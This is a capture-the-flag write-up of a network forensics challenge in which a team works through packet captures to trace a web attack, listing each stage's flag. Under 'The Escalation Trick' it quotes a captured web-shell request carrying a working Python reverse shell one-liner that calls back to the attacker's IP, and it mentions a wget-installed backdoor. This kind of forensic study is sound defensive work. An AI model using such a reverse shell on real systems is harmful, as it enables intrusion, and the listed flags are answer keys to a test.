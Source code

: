 # Attack Investigation - Networks

## Challenge

This was a multi-part challenge which unlocked further stages as you completed them. For the sake of brevity I am recording them on a singular document under a singular title instead of creating unique ones for each challenge. 

## Solve:

This challenge was solved by our team MQCyberSec.

### Server & Attacker IP

Filtering for `http` traffic we can see evidence of web directory enumeration from `192.168.1.9` to `192.168.1.10`:

![nw1](https://github.com/user-attachments/assets/186d5fdd-6aea-431b-b774-6d337186c2dd)


`KCTF{192.168.1.10_192.168.1.9} `

### The Real Admin 

Filtering for `http` traffic which doesn't include the attackers IP, we can see admin activity from `192.168.1.3`:

![nw2](https://github.com/user-attachments/assets/77402dd8-9d9b-4433-bdce-6240b0d0cbe2)


`KCTF{192.168.1.3}`


### The Intruder's Identity

Filtering for POST requests from the attacker's IP, can find credentials used to register an account:

![n3](https://github.com/user-attachments/assets/9e59e0b7-2e36-4a5a-a7e0-9940bb3652ff)


`KCTF{theexploiter_exploiter@test}`

### Compromising the Admin

Same filters, can view multiple attempts to login to `admin` and find compromised credentials after final attempt:

![nw4](https://github.com/user-attachments/assets/fb6aec37-4d94-4cd3-b4d1-c8c7dc104e85)


`KCTF{theexploiter_exploiter@test}`

### Initial Reconnaisance

To explore the tools that may have been used, my teammate `Ch1maera` used `tshark` to enumerate `User-Agents`, and found:

`93e4r0-CVE-2014-6271`

Doing a search for "93e4r0-CVE-2014-6271" led to the GitHub repo for `nikto`, a web enumeration tool.

The `User-Agent` can be found with this command:

```
./tshark.exe -r capture1.pcapng -Y "http.user_agent" -T fields -e http.user_agent | Sort-Object | Get-Unique
```

![nw5](https://github.com/user-attachments/assets/e1fb63f8-3726-4b73-93ba-a24e1b296c46)


`KCTF{nikto}`

### Stealing the Sweet

Found evidence of an XSS attack under Statistics->HTTP->Requests:

![nw6](https://github.com/user-attachments/assets/efff728c-5c54-45fb-bdf3-e5d4012a4339)


Filtering for `http` traffic that is not destined for port 80 (credit to my teammate `sealldev`) we can see HTTP packets sent from the server to the attackers IP:

![nw7](https://github.com/user-attachments/assets/f2d41ecb-c191-4f0b-8263-548f0214c2a5)


`KCTF{8881_xss}`

### The Overseer

Moving on to the second packet capture, the first batch of packets show requests to `/cockpit`:

![nw8](https://github.com/user-attachments/assets/53fb0a84-b0ce-48c5-8f67-09013721efa3)


`KCTF{cockpit}`

### The Gatekeeper

To find out the port the server listens on, just check the GET request to `/cockpit/login` above.

`KCTF{9090}`

### The Server's Identity 

Viewing the WebSocket traffic we can see the `host` in the attackers communication with the server is specified as `localhost`:

![nw9](https://github.com/user-attachments/assets/74c82661-4d90-478b-b34c-3cf6170ad639)


`KCTF{localhost.localdomain}`

### Tareq's Secret 

To find the password, filter for `http` requests to `/cockpit/login` and view last (and successful) login attempt:

![nw10](https://github.com/user-attachments/assets/0f02c211-d4c5-43cb-a424-9323b5f286b7)


`KCTF{SecurePass}`

### The Escalation Trick

Moving on to the third and final packet capture, we can filter for `http` requests and sort by length to view commands requested as URIs:

![nw11](https://github.com/user-attachments/assets/3f33caa7-49a2-4203-bb12-8f4b2cbda9a8)


```
 GET /uploads/678e2443a6725.php?cmd=export%20RHOST=%22192.168.1.9%22;export%20RPORT=5074;python3%20-c%20%27import%20sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(%22RHOST%22),int(os.getenv(%22RPORT%22))));[os.dup2(s.fileno(),fd)%20for%20fd%20in%20(0,1,2)];pty.spawn(%22sh%22)%27 HTTP/1.1
```

The command appears to be establishing a reverse shell. Following the tcp stream (credit to `sealldev`) shows attacker executing commands through this shell and reveals the tool used to escalate privileges:

![nw12](https://github.com/user-attachments/assets/adf85837-94a4-43a8-97f4-08c4ceb43775)


`KCTF{awk}`

### The Hidden Door

In the same TCP stream, we can view the commands executed by the attacker to establish a backdoor:

![nw13](https://github.com/user-attachments/assets/c9663e64-f7e6-42fe-a2f5-252497ad9828)

The attacker changes to the `root` directory, creates a hidden directory `.sys` and installs the backdoor via `wget` on port 2081.

`KCTF{/root/.sys/sys_2081}`

### Port Fiesta

In the same TCP stream, we can see the server is started on 10 different ports:

![nw14](https://github.com/user-attachments/assets/8667e2b3-2c82-45df-8095-09b36bccfd1e)


`KCTF{10}`

### The Backdoor's Whisper

Manually checking the ports from the previous question with `tcp.port == <port>`, only port 12345 has any activity:

`KCTF{12345}`

### The Unused Tool 

In the same TCP stream where we can view the attackers commands, we can see they attempted to install and run `tmux` but were unsuccessful:

![nw15](https://github.com/user-attachments/assets/ae0a8af4-0443-47ce-a774-00f71f818b0a)


![nw16](https://github.com/user-attachments/assets/8251ebf6-57a7-40ed-8b98-e1faa906797b)


`KCTF{tmux}`

### Malicious Uploads 

This challenge goes back to the first packet capture and asks for the name of the maliciously uploaded file. Since `/blog/create` has been exploited before, can check for POST requests and find `serverfile.php`:

![nw17](https://github.com/user-attachments/assets/2f3e1eef-bc5e-4a39-8602-9046786d061f)


`KCTF{serverfile.php}`

### Shell History

Apparently a malicious shell file already existed on the system. The flag asks for the date and time, suggesting an `ls` may have been used with the `l` flag showing the date/time as well as the file name (credit to `sealldev`). Going back to the attackers commands and checking for an `ls -l` proves this theory correct:

![nw18](https://github.com/user-attachments/assets/05e5a0bd-89e2-4782-a215-62055506657e)


`KCTF{php-reverse-shell.php_Jan_19}`

